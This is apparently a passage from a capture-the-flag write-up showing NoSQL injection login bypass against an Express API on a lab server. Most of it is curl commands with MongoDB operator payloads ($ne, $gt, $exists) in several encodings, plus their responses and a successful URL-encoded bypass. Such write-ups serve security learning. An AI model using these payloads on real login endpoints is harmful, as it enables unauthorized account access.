 ```
curl -H "application/x-www-form-urlencoded" -d "username[$exists]=true&password[$exists]=true" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$exists]=true&password[$exists]=true" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username%5B$gt%5D=&password%5B$gt%5D=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" --data-urlencode "username[$eq]=" --data-urlencode "password[$ne]=" -v 206.189.121.131:31978/api/login
curl -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login

curl -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -d "username%5B%24ne%5D%3D%26password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login
curl -d "username%5B%24ne%5D%3D&password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login

	{"logged":0,"message":"Login Failed"} 

curl -H "application/json" -d "{'username': {'$gt': ''},'password': {'$gt': ''}}" -v 206.189.121.131:31978/api/login
curl -H "application/json" -d "{'username': {'$ne': null}, 'password': {'$ne': null} }" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" --data-urlencode "username[$eq]=admin&password[$ne]=foo" -v 206.189.121.131:31978/api/login
curl -d "username%5B$ne%5D=&password%5B$ne%5D=" -v 206.189.121.131:31978/api/login
curl -H "Content-Type: text/plain" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login

	{"message":"Invalid username or password"}   
```

I've come up with the idea to see how really the request looks - I must send the wrong data. Capturing the traffic with `wireshark` indeed shows, that requests I am sending via `curl` are truncated from `$ne`-like parameters. So I'm encoding the whole POST data in [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=dXNlcm5hbWVbJG5lXT0mcGFzc3dvcmRbJG5lXT0) and voila:

```
username[$ne]=&password[$ne]=
==
username%5B%24ne%5D%3D&password%5B%24ne%5D%3D
```

```
$ curl -d "username%5B%24ne%5D%3D&password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login

*   Trying 206.189.121.131:31978...
* Connected to 206.189.121.131 (206.189.121.131) port 31978 (#0)
> POST /api/login HTTP/1.1
> Host: 206.189.121.131:31978
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 out of 45 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 62
< ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
< Date: Fri, 23 Apr 2021 10:41:57 GMT
< Connection: keep-alive
```